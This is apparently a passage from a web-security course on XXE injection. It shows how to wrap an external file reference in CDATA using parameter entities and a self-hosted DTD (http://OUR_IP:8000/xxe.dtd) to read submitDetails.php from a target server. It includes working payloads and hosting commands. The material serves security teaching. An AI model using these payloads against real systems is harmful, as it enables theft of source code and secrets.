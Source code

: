 This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

One easy way to tackle this issue would be to define a begin internal entity with ``<![CDATA[, an end internal entity with ]]>``, and then place our external entity file in between, and it should be considered as a ``CDATA`` element, as follows:
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
After that, if we reference the ``&joined;`` entity, it should contain our escaped data. However, **this will not work, since XML prevents joining internal and external entities**, so we will have to find a better way.

To bypass this limitation, we can utilize ``XML Parameter Entities``, a special type of entity that starts with a ``%`` character and can only be used within the DTD. 

What's unique about parameter entities is that if we reference them from an external source (like our own server), then all of them would be considered as external and can be joined, as follows:
```xml
<!ENTITY joined "%begin;%file;%end;">
```
So, let's try to read the ``submitDetails.php`` file by first storing the above line in a DTD file (e.g. ``xxe.dtd``), host it on our machine, and then reference it as an external entity on the target web app, as follows:
```bash
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Now, we can reference our external entity (``xxe.dtd``) and then print the ``&joined;`` entity we defined above, which should contain the content of the ``submitDetails.php`` file, as follows:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
Once we write our ``xxe.dtd`` file, host it on our machine, and then add the above lines to our HTTP request to the vulnerable web app, we can finally get the content of the ``submitDetails.php`` file:
![[BJJRhbbuyx.png]]
As we can see, we were able to obtain the file's source code without needing to encode it to **base64**, which saves much time when going through various files.
>[!Important]
In some servers, we may not be able to read some files (like ``index.php``), as the server would be preventing a DOS attack caused by file/entity self-reference.
